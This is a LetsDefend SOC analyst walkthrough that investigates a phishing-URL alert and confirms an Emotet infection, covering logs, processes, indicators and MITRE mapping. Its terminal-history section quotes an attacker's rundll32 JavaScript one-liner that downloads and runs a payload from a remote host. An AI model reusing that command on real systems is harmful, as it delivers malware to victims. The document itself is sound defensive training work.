










# SOC141 - Phishing URL Detected | LetsDefend Walkthrough

## Alert Details

| Field | Value |
|---|---|
| EventID | 86 |
| Rule Name | SOC141 - Phishing URL Detected |
| Date/Time | Mar 22, 2021, 09:23 PM |
| Source IP | 172.16.17.49 |
| Destination IP | 91.189.114.8 |
| Source Hostname | EmilyComp |
| Destination Hostname | mogagrocol.ru |
| Domain name | nichost.ru |
| URL | http://mogagrocol.ru/wp-content/plugins/akismet/fv/index.php?email=ellie@letsdefend.io |
| User Agent | Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36 |


---

## 1. URL Analysis

**URL:** `http://mogagrocol.ru/wp-content/plugins/akismet/fv/index.php?email=ellie@letsdefend.io`

First observation: it uses **HTTP instead of HTTPS**. The domain is Russian.

The path contains `/akismet` which is a well-known WordPress anti-spam plugin. However, after checking the [real Akismet source on GitHub](https://github.com/wp-plugins/akismet), the plugin does **not** have a `/fv` folder. 

*Figure 1: Git Hub Akismet folder*

This means the folder was injected by the attacker into a compromised WordPress site.

Additionally, the `?email=ellie@letsdefend.io` parameter passed in plaintext is suspicious. This indicates **email harvesting behavior**. The PHP script receives the email and forwards it to the attacker's server.

The destination email domain is **nichost.ru**. A Russian hosting provider. Combined with the Russian phishing domain (mogagrocol.ru), this suggests consistent Russia-based attacker infrastructure.

### Sandbox Results

| Tool | Result |
|---|---|
| VirusTotal | 14/91 security vendors flagged this URL as malicious |
| AnyRun | Malicious |
| HybridAnalysis | Malicious |


*Figure 2: VirusTotal analysis of the phishing URL, 14/91 security vendors flagged this URL as malicious.*



*Figure 3: AnyRun analysis of the phishing URL, verdict is malicious activity.*



*Figure 4: HybridAnalysis analysis of the phishing URL, verdict is malicious.*


---

## 2. Log Management

```
Mar 22, 2021, 09:23 PM
Source:       172.16.17.49:55662
Destination:  91.189.114.8:80
Request URL:  http://mogagrocol.ru/wp-content/plugins/akismet/fv/index.php?email=ellie@letsdefend.io
Firewall:     ALLOWED
```

*Figure 5: Log history for 91.189.114.8*

The request was **not blocked**, EmilyComp successfully reached the malicious page.

---

## 3. Endpoint Analysis

### Processes

| Process | Path | md5 hash | Status |
|---|---|---|---|
| AcroRd32.exe | c:/program files (x86)/adobe/acrobat reader dc/reader/acrord32.exe | 357b03e0b8d0c30713f2c41ce60583c5 | Legitimate |
| ccsvchst.exe | c:/program files (x86)/symantec/symantec endpoint protection/14/bin/ccsvchst.exe | aba0a9709e6c11bc0b6ee21de36743e3 | Legitimate |
| notepad.exe | c:/windows/system32/notepad.exe | FC2EA5BD5307D2CFA5AAA38E0C0DDCE9 | Legitimate |
| Chrome.exe | c:/program files/internet explorer/iexplore.exe | - | **Suspicious** |
| rundll32.exe | - | - |  **Suspicious** |
| KBDYAK.exe | - | a4513379dad5233afa402cc56a8b9222 | **Malicious** |

**Chrome.exe** path shows `c:\program files\internet explorer\iexplore.exe` instead of the legitimate `c:\Program Files\Google\Chrome\Application\chrome.exe`. This indicates **masquerading**; the process is iexplore.exe presenting itself as Chrome to evade detection.

**KBDYAK.exe** is an unknown process with a random-looking name. VirusTotal hash analysis flagged it as **Trojan.Emotet**; 66/72 vendors confirmed malicious.

*Figure 6: KBDYAK.exe md5 hash analysis from VirusTotal*

> Emotet is a trojan originally built for banking credential theft, later evolved into a loader for additional payloads.

### Terminal History

```
rundll32.exe javascript:'../mshtml,RunHTMLApplication ';document.write();GetObject('script:http://ru-uid-507352920.pp.ru/KBDYAK.exe')'
```

Normal rundll32 structure:
```
rundll32.exe  shell32.dll,  Control_RunDLL
```

*Figure 7: rundll malicious command analysis*

This command is abnormal. Instead of a DLL path it uses a `javascript:` protocol handler. This is **proxy execution**: rundll32 (a trusted Windows binary) is used as a middleman to load mshtml.dll (IE's leftover engine), which runs JavaScript, which then fetches and executes KBDYAK.exe from a remote Russian domain.

**MITRE ATT&CK:**
- T1218.011 - Proxy Execution: Rundll32
- T1059.007 - JavaScript
- T1105 - Ingress Tool Transfer
- T1036 - Masquerading

### Connections

Both IPs communicating with EmilyComp were confirmed as **Emotet Epoch 2 C2 servers** via [Cryptolaemus](https://paste.cryptolaemus.com/) threat intelligence.

The same C2 server also communicated with **MikeComputer (172.16.17.14)**. Indicating lateral spread within the network.

### Browser History

*Figure 8: The suspicious browser history*

2020-12-05 22:36  →  http://bit.ly/3ecXem52


*Figure 9: virustotal analysis of the url*

2020-12-05 22:37  →  http://places.hayatistanbul.net/wp-content/themes/Netflix


*Figure 10: virustotal analysis of the url*


These searches are **outside work hours**. `bit.ly` is a URL shortener frequently used in phishing, victim cannot see the real destination. The second URL is a fake Netflix login page hosted on a compromised WordPress site, both over HTTP. Both flagged as malicious on VirusTotal.

This browser history is from **December 2020**, 3 months before the alert, meaning the endpoint was already at risk long before detection.

**User-Agent:**
```
Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36
```
- Windows NT 6.1 = **Windows 7** (EOL since January 14, 2020)
- Chrome 79 = **1 year out of date** at time of incident
- Combined = extremely vulnerable, unpatched endpoint

---

## 4. Artifacts

| Artifact | Type | Verdict |
|---|---|---|
| 91.189.114.8 | IP Phishing host | Malicious |
| mogagrocol.ru | Domain | Malicious |
| Emotet C2 IP 1 | IP C2 Server (Epoch 2) | Malicious |
| Emotet C2 IP 2 | IP C2 Server (Epoch 2) | Malicious |
| KBDYAK.exe hash | File Hash | Malicious Trojan.Emotet |
| ru-uid-507352920.pp.ru | Domain payload source | Malicious |

---

## 5. Verdict

**True Positive - Emotet Infection Confirmed**

- Phishing URL accessed from EmilyComp (172.16.17.49)
- Emotet payload (KBDYAK.exe) delivered via rundll32 proxy execution
- Two Emotet Epoch 2 C2 servers communicating with the endpoint
- Lateral movement identified - MikeComputer (172.16.17.14) also communicated with same C2

**Actions Taken:**
- EmilyComp contained
- MikeComputer (172.16.17.14) flagged for immediate investigation and containment
